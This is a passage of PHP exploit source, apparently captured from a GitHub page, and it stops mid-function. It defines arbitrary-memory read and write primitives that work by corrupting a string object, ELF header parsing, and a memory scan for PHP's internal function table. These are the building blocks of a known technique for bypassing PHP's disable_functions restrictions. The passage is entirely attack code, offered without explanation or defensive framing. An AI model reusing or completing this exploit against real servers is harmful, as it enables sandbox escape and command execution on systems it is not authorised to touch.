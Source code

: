 ```php
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
```
